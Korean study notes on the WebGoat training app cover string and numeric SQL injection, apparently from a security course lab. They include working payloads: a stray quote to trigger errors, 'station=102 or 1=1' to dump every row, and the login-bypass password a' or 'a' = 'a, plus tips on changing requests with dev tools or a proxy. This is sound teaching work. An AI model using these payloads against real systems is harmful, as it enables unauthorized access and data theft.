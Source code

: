### String SQL Injection

* #2 오류를 유발하는 입력 ⇒ 추가 공격을 위한 정보 수입
  ⇒ search.jsp?text=abcd'
  ⇒ select * from data where keyword = 'abcd''
  ⇒ 홑따움표의 개수가 일치하지 않아서 오류가 발생
  ⇒ 오류 메시지에 대한 처리가 불완전하여 시스템 내부 정보가 사용자 화면에 출력 될 수 있음
  * LAB@WinXP > Paros 실행 후 IE 브라우저로 WebGoat 사이트로 접속 ⇒ http://192.168.49.1:8080/WebGoat (webgoat / webgoat) > Injection Flaws > String SQL Injection 메뉴로 이동
    (사용자 계좌(계정)의 유효성을 체크해 주는 서비스)
    ![img](https://lh6.googleusercontent.com/8edG_W5s2q74ekLOfdlJMYsyPYh75m7KWn3R-eq93x2AJlfRQRqPHUXF5gT8kmjiLrbbf276c0vI7qkI1M6d_M-RgtZbm9htQDR7rlVjAJsI9GlqZLOJtu1Cd_T6LVG21P-T9wsh)

### Numeric SQL Inejction

* 선택한 지역의 날씨 정보를 출력해주는 서비스.
  WebGoat > Injection Flaws > Numeric SQL Inejction

![img](https://lh4.googleusercontent.com/YvLPx-EdsSvhNPLrT2d1XjhokTG-AlFO0RM9QVTqY2uGBoTKi44ed06lm6kQrdtudr3lSwob2hxIzUM55zvbu_ebcXBNoZ8PwZbuyLK9NecsX4AaDS_ln_h4TdBgItNwwP4QgeSP)

* Q. 모든 지역의 날씨 정보가 출력되도록 하시오.

* 과정
  [화면]지역을 선택: Seattle → station 파라미터의 값 102으로 지정
  [전달].../search.jsp?satation=102
  [처리]select * from weather where satation = 102

* 정답1.
  URL 주소의 요청 파라미터를 수정해서 직접 호출하는 방법http://192.168.49.1:8080/WebGoat/attack?Screen=75&menu=1100&station=102 or 1=1

* 정답2.
  Proxy를 이용해서 요청 파라미터를 수정해서 호출하는 방법station=102 or 1=1&SUBMIT=Go%21
  ![img](https://lh5.googleusercontent.com/JQHUMD9_uKFaArd2yNkHYgwbM-Z98IaJiU3EYEmT1ob5JO1pmdvZkGSaXAFDlj1o_FVlvgpvhMHTYmCHhJyci-B-6QkfS7n8Q_psXnuon8cJpO4P1QD4TYXrMre3LeKFvQLbEMvB)

  

* 정답3. 브라우저의 개발자 도구를 이용해서 파라미터의 값을 변경하여 서버로 전달

* Stage2.
  ![img](https://lh5.googleusercontent.com/JQHUMD9_uKFaArd2yNkHYgwbM-Z98IaJiU3EYEmT1ob5JO1pmdvZkGSaXAFDlj1o_FVlvgpvhMHTYmCHhJyci-B-6QkfS7n8Q_psXnuon8cJpO4P1QD4TYXrMre3LeKFvQLbEMvB)
  WebGoat > Injection Flaws > LAB: SQL Injection > Stage 1. String SQL Injection ![img](https://lh5.googleusercontent.com/-dsoFpWODlIQSPcr4_Vv8R678hbWxMB9ka9d1A0DyBsC-f06YaLdiaIJ-vGWeNSTNh3BHrHl3AUYVaXlkAlhXQLEveeV6HywM47bxeoj8vskAEZcTdXb2LLY9htFNpqLU8zNiIci)문제: Neville 사용자로 로그인 하시오.

  [화면]사용자 : Neville ⇒ employee_id 파라미터의 값으로 112가 선택패스워드 : a' or 'a' = 'a

  [전달] .../login.jsp?userid=112&password=a' or 'a' = 'a
  [처리] select * from users where userid = 112 and password = 'a' or 'a' = 'a'
  → 조회 결과가 있으면 → 로그인 성공
  → 조회 결과가 없으면 → 로그인 실패
  브라우저의 개발자 도구를 이용해서 클라이언트의 입력 값 제약 조건을 해제 후 공격 문자열을 입력, 전달한다.![img](https://lh5.googleusercontent.com/K-P0VWiGLX53U75I5rx8bqtr5uNL-cSQkWRlQb2Dpwfs5ucIMWGHbcIITvbXvQcEbpVa18H0KVpcjiAObUi5y3_jagdILsk-G41jL8pXGdnuNrOPOuJ4eSUAw_CySCNMU2nPYvY6)
  Proxy 도구를 이용해서 서버로 전달되는 중간에 값을 변경해서 전달하는 방법이 있다.![img](https://lh4.googleusercontent.com/scpuMyF2KObAhLl6HEDBXJ-PaQHIIQ7EQ6mmvosKI1OzctDfecOUSqjpCdNKqeTacv36l4izZNh2hJeUNx2GZJt1FHBv9j0sbSg7h_VdQ7UTjX_ZxQw-F65RUvrt3eiJNRjl7Z_g)
